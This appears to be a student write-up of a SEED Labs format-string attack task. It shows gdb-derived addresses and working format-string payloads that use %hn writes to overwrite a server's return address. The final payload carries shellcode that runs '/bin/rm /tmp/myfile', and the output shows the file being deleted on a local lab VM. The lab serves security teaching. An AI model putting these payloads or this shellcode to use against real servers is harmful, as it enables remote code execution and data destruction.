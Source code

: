 

## Task 6: Inject Malicious Code into the Server Program

In this task we need modify the return address to the shell code. 

To get the offset, we need to push some `nop(0x90)`into the buffer array and get the offset.

Using `gdb` file, we get:

```markdown
the value of msg(the address of buf): 0xbfffe718
the return address: 0xbfffe740
the address of msg: 0xbfffe700
the address of the return address: 0xbfffe6bc
```

So we construct a payload:

```shell
$ echo $(printf "\xbc\x6f\xff\xbf")%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%hn$(printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90") >input
$ nc -u 127.0.0.1 9090 < input
```

Then we find the `nop` were injected in the area of `0xbfffe790`, we get the offset = `0xbfffe790-0xbfffe718=0x78`.

So we can modify the return address into `0xbffff0e0+0x78=bffff158`.

Use the same idea in Task 5-C, we need change the two-byte at `0xbffff09c` and the two-byte at `0xbffff09e`. It’s origin value is `0x0804872d`, we get `0xbfff-3*4-22*4=48963`, and `0xf158-0xbfff=12633`, Then we try to construct a payload below. Trying a few times and change the value of the second value into 12611, we succeed.

```shell
$ echo $(printf "\x9e\xf0\xff\xbf\x11\x11\x11\x11\x9c\xf0\xff\xbf")%048963x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%hn%012611x%hn$(printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x68ile \x68/myf\x68/tmp\x68/rm \x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80") > input6
$ nc -u 127.0.0.1 9090 <input6
```

Output:

```shell
[11/21/19]seed@VM:/tmp$ touch myfile
[11/21/19]seed@VM:/tmp$ ls
config-err-9j0iw4
myfile
systemd-private-d58ef22a100b4a8d92cde9ff2620e54e-colord.service-4AAjYt
systemd-private-d58ef22a100b4a8d92cde9ff2620e54e-rtkit-daemon.service-SaKdq1
unity_support_test.1
[11/21/19]seed@VM:/tmp$ ls
config-err-9j0iw4
systemd-private-d58ef22a100b4a8d92cde9ff2620e54e-colord.service-4AAjYt
systemd-private-d58ef22a100b4a8d92cde9ff2620e54e-rtkit-daemon.service-SaKdq1
unity_support_test.1
[11/21/19]seed@VM:/tmp$ 
```
